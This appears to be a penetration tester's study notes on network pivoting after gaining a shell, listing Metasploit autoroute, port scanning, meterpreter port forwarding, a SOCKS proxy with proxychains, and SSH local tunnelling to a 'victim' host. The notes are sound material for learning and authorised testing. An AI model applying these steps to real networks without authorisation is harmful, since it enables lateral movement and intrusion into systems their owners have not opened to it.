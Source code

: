  <h2> Proxying </h2> <br>
 
  If you have a MSFCONSOLE shell on a machine (generate payload via msfvenom if needed and run and set multi/handler on msfconsole <br>
  background session -- background <br>
  use post/multi/manage/autoroute <br>
  set SESSION 1 (change if more than 1 session) <br>
  set SUBNET 10.200.3.0 (change to submet needed) <br>
  exploit <br>
  msfconsole<br>
pivoting, check ifconfig when you have a shell on the machine if you have a meterpreter shell, are there multiple nics?<br>
if yes, use autoroute<br>
background session -- background<br>
use post/multi/manage/autoroute<br>
set SESSION 1 (change if more than 1 session)<br>
set SUBNET 10.200.3.0 (change to submet needed)<br>
exploit<br>
if that doesnt work make sure your back in your session and run (change IPs) -- meterpreter > run autoroute -s 192.181.243.1/24 <br>
now you can use further auxiliary commands against the machine pivoting towards<br>
has nmap command which can be used with script comnmand --script(useful for pivoting)<br>
  background <br>
  for portscan - use auxiliary/scanner/portscan/tcp <br>
  set options and set everything <br>
  run <br>
  Identify ports of interest, now need to configure port forward. <br>
  access the session -- sessions -i NUMBER <br>
  ensure meterpreter shell and type -- portfwd add -l (PORT TO FORWARD, e.g. 555) -p (PORT ATTACKING) -r victimIP <br>
  background session <br>
  Now perform nmap -sV -sC scan on ported for e.g. -p 555 localhost still in msfconsole console
  Once found an exploit for version type -- search SERVICE and use whatever exploit <br>
  set IP to actual machines ip 
  exploit 
  
  
  <h2> Proxychains </h2>
  <br>
   If you have a MSFCONSOLE shell on a machine (generate payload via msfvenom if needed and run and set multi/handler on msfconsole <br>
  background session -- background <br>
  use post/multi/manage/autoroute <br>
  set SESSION 1 (change if more than 1 session) <br>
  set SUBNET 10.200.3.0 (change to submet needed) <br>
  exploit <br>
  Now setup proxy <br>
 use auxiliary/server/socks_proxy <br>
 set VERSION 4a <br>
  type -- run <br>
 should not need to edit conf as working on my machine (/etc/proxychains.conf) <br>
 type --- proxychains nmap -T4 IP/CIDR and look for "OK" <br>
 every command is the same just add proxychains before
  
  
<h2> SSH Tunneling </h2> <br>
If you manage to get into a box via SSH or have comprimised a box and are able to ssh to the box, you can check what local ports are running and then use SSH tunneling to access these from your attack machine <br>
when on the comprimised host (if linux) type -- ss -tulpn (take a look at ports running and the port number) <br>
if port 10000 is running and of interest youd type on your local machine ssh -L 10000:localhost:10000 <username>@<ip>  (username of victim machine and ip) <br>
 then browse to port by browser -- localhost:10000 <br>
